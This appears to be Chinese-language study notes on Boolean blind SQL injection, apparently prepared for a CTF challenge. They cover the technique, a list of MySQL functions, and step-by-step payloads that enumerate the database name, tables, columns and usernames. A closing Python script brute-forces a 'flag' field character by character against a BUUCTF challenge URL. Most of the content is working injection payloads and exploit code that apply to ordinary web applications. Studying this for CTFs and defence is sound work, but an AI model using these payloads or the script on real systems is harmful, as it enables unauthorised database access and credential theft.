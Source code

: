 ## 布尔盲注
原理：运用截取单个字符，用ascii码进行加密，用if进行判断，根据页面的回显情况，判断每个字符的ascii码，最后一点点试出来数据库的信息

常用函数：
```
substr    截断
mid       同理截断
mid(flag, num, 1)函数尝试获取flag字符串中第num个字符的值

left      从左边开始截断
right     从右边开始截断
ord       ascii码加密 ，用于将一个字符（即一个长度为1的字符串）转换为它的 ASCII 码值
ascii     ascii码加密，用于将一个字符串中的所有字符转换为它们的 ASCII 码值的字符串表示
char      ascii码解密
length    统计长度

对于orderby可以用 case when语句，if()语句。
```


通常采用下面的办法猜解字符串：
```
where length(database())=4 --+
' and length(database())=8 --+
' and ascii(substr(database(),1,1)) > N --+
' and ascii(substr(database(),1,1)) = N --+
' and ascii(substr(database(),1,1)) < N --+
```


## 获取数据库名

**找到注入点，判断闭合情况\
获取数据库名 先得到数据库名的长度**

```
and length(database())>5
```

## []()再依次获取数据库名的每一个字符

```
and ascii(substr(database(),1,1))>97
```

## []()先获取表数量

```
and (select count(\*) from information_schema.tables where table_schema=database())>5
```

## []()再用limit依次获取每个表名的长度

```
and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>5
```

## []()最后获取每个表名的名字

```
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97
```

## []()先获取列名个数

```
and (select count(*) from information_schema.columns where table_name='users' and table_schema=database())>5
```

## []()再获取列名长度

```
and (select length(column_name) from information_schema.columns where table_name='users’ and table_schema=database() limit 0,1)>5
```

## []()最后获取列名

```
and ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),1,1))>97
```

## []()先确定第一个用户名长度

```
and (select length(username) from users limit 0,1)>5
```

## []()再确定用户名每一个字符的对应字母

```
and ascii(substr((select username from users limit 0,1),1,1))>97
```


^
## **布尔盲注脚本**
```

import requests
import string

# 根据已知表名flag，字段名flag，读取字段值，回显差异有hello字符，一个字符一个字符判断

def blind_injection(url):
   flag = ''
   strings = string.printable
   for num in range(1,60): # 假设flag字符串长60
      for i in strings:
         payload = '(select(ascii(mid(flag,{0},1))={1})from(flag))'.format(num,ord(i))
         # {0} {1} 站位分别被num和ord(i)替换，mid(flag, num, 1)函数尝试获取flag字符串中第num个字符的值
         post_data = {"id":payload}
         res = requests.post(url=url,data=post_data)
         if 'Hello' in res.text:
            flag += i
            print(flag)
         else:
            continue
   print(flag)


if __name__ == '__main__':
   url = 'http://6573d951-8200-4785-ba83-45d276611027.node5.buuoj.cn:81/index.php'
   blind_injection(url)
```
